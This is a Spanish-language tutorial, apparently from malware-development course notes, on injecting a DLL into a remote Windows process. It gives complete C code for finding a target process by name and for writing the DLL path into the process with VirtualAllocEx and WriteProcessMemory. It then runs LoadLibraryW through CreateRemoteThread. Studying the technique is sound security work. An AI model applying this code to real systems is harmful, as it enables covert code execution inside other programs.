

Process Injection - DLL Injection¶
Esto es lo mismo que la inyección de DLL, pero en vez de una inyección local se hace en un proceso remoto.
Enumerando procesos¶
Antes de poder inyectar una DLL en un proceso, se debe elegir un proceso objetivo. Por lo tanto, el primer paso para la inyección de procesos remotos es generalmente enumerar los procesos en ejecución en la máquina para conocer los procesos objetivo potenciales que pueden ser inyectados. Se requiere el ID del proceso (o PID) para abrir un handle al proceso objetivo y permitir que se realice el trabajo necesario en el proceso objetivo.
Para eso vamos a crear una función que hace una enumeración lineal para determinar todos los procesos activos dentro de la maquina. La función GetRemoteProcessHandle va a ser usada para hacer la enumeración de todos los procesos abriendo un handle a cada proceso y obteniendo su nombre.
CreateToolhelp32Snapshot¶
El fragmento de código comienza usando CreateToolhelp32Snapshot con la flag TH32CS_SNAPPROCESS como su primer parámetro, que toma una snapshot de todos los procesos ejecutándose en el sistema en el momento en que se ejecuta la función.
// Toma una snapshot de todos los procesos actualmente en ejecución
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
Estructura de PROCESSENTRY32¶
Una vez que se toma la snapshot, se usa Process32First para obtener información del primer proceso en la snapshot. Para todos los procesos restantes en la snapshot, se usa Process32Next.
La documentación de Microsoft establece que tanto Process32First como Process32Next requieren que se pase una estructura PROCESSENTRY32 como su segundo parámetro.
Después de que se pasa la estructura, las funciones llenarán la estructura con información sobre el proceso. La estructura PROCESSENTRY32 se muestra a continuación con comentarios junto a los miembros útiles de la estructura que serán llenados por estas funciones.
typedef struct tagPROCESSENTRY32 {
DWORD dwSize; // Tamaño de la estructura en bytes
DWORD cntUsage; // Número de referencias a este proceso
DWORD th32ProcessID; // El ID del proceso (PID)
ULONG_PTR th32DefaultHeapID; // ID del heap por defecto del proceso
DWORD th32ModuleID; // ID del módulo del proceso
DWORD cntThreads; // Número de hilos de ejecución en el proceso
DWORD th32ParentProcessID; // ID del proceso padre
LONG pcPriClassBase; // Prioridad base del proceso
DWORD dwFlags; // Flags adicionales (reservado para uso futuro)
CHAR szExeFile[MAX_PATH]; // Nombre del archivo ejecutable del proceso
} PROCESSENTRY32;
Después de que Process32First o Process32Next llenen la estructura, los datos pueden extraerse de la estructura usando el operador punto. Por ejemplo, para extraer el PID usar PROCESSENTRY32.th32ProcessID.
Process32First & Process32Next¶
Como se mencionó anteriormente, Process32First se usa para obtener información del primer proceso y Process32Next para todos los procesos restantes en la snapshot usando un bucle do-while. El nombre del proceso que se está buscando, szProcessName, se compara contra el nombre del proceso en la iteración actual del bucle que se extrae de la estructura poblada, Proc.szExeFile. Si hay una coincidencia, entonces se guarda el ID del proceso y se abre un handle para ese proceso.
// Retrieves information about the first process encountered in the snapshot.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
// Use the dot operator to extract the process name from the populated struct
// If the process name matches the process we're looking for
if (wcscmp(Proc.szExeFile, szProcessName) == 0) {
// Use the dot operator to extract the process ID from the populated struct
// Save the PID
*dwProcessId = Proc.th32ProcessID;
// Open a handle to the process
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break; // Exit the loop
}
// Retrieves information about the next process recorded the snapshot.
// While a process still remains in the snapshot, continue looping
} while (Process32Next(hSnapShot, &Proc));
Case Sensitive process name¶
El fragmento de código anterior contiene un fallo que fue pasado por alto y que puede llevar a resultados inexactos. La función wcscmp fue usada para comparar los nombres de los procesos, pero no se tuvo en cuenta la sensibilidad a mayúsculas y minúsculas, lo que significa que Process1.exe y process1.exe serán considerados como dos procesos diferentes.
El fragmento de código a continuación corrige este problema convirtiendo el valor en el miembro Proc.szExeFile a una cadena en minúsculas y luego comparándola con szProcessName. Por lo tanto, szProcessName siempre debe ser pasado como una cadena en minúsculas.
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {
// According to the documentation:
// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
// If dwSize is not initialized, Process32First fails.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Takes a snapshot of the currently running processes
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Retrieves information about the first process encountered in the snapshot.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
WCHAR LowerName[MAX_PATH * 2];
if (Proc.szExeFile) {
DWORD dwSize = lstrlenW(Proc.szExeFile);
DWORD i = 0;
RtlSecureZeroMemory(LowerName, MAX_PATH * 2);
// Converting each charachter in Proc.szExeFile to a lower case character
// and saving it in LowerName
if (dwSize < MAX_PATH * 2) {
for (; i < dwSize; i++)
LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);
LowerName[i++] = '\0';
}
}
// If the lowercase'd process name matches the process we're looking for
if (wcscmp(LowerName, szProcessName) == 0) {
// Save the PID
*dwProcessId = Proc.th32ProcessID;
// Open a handle to the process
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break;
}
// Retrieves information about the next process recorded the snapshot.
// While a process still remains in the snapshot, continue looping
} while (Process32Next(hSnapShot, &Proc));
// Cleanup
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}
Inyección de DLL en un proceso remoto¶
Una vez que se tiene un handle a un proceso remoto,, tenemos que utilizar ciertos metodos de la API de Windows para inyectar una DLL en el proceso remoto. Los pasos generales para lograr esto son los siguientes:
-
VirtualAllocEx - Similar a VirtualAlloc excepto que permite la asignación de memoria en un proceso remoto.
-
WriteProcessMemory - Escribe datos al proceso remoto. En este caso, se usará para escribir la ruta de la DLL al proceso objetivo.
-
CreateRemoteThread - Crea un hilo en el proceso remoto
Código¶
La función InjectDllToRemoteProcess toma dos parámetros:
- Process Handle - Un handle al proceso remoto en el que se inyectará la DLL.
- DLL name - La ruta completa a la DLL que se inyectará en el proceso remoto.
Encontrar la dirección de LoadLibraryW¶
Para cargar una DLL en un proceso remoto, necesitamos la dirección de LoadLibraryW. Esta dirección es la misma en ambos procesos (local y remoto).
// Obtener la dirección de LoadLibraryW desde kernel32.dll
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
Asignando memoria y escribiendo la DLL¶
Asignamos memoria en el proceso remoto para almacenar el nombre de la DLL:
// Asignar memoria en el proceso remoto
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
// Escribir el nombre de la DLL en la memoria asignada
WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten);
Ejecución vía nuevo hilo¶
Creamos un hilo remoto que ejecutará LoadLibraryW con la ruta de nuestra DLL como argumento:
// Crear hilo remoto que ejecutará LoadLibraryW con el nombre de la DLL
HANDLE hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
El hilo remoto cargará la DLL en el proceso objetivo, completando la inyección.
Código completo¶
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {
BOOL bSTATE = TRUE;
LPVOID pLoadLibraryW = NULL;
LPVOID pAddress = NULL;
// fetching the size of DllName *in bytes*
DWORD dwSizeToWrite = lstrlenW(DllName) * sizeof(WCHAR);
SIZE_T lpNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
if (pLoadLibraryW == NULL){
printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pAddress == NULL) {
printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
printf("[#] Press <Enter> To Write ... ");
getchar();
if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
printf("[#] Press <Enter> To Run ... ");
getchar();
printf("[i] Executing Payload ... ");
hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
if (hThread == NULL) {
printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
bSTATE = FALSE; goto _EndOfFunction;
}
printf("[+] DONE !\n");
_EndOfFunction:
if (hThread)
CloseHandle(hThread);
return bSTATE;
}
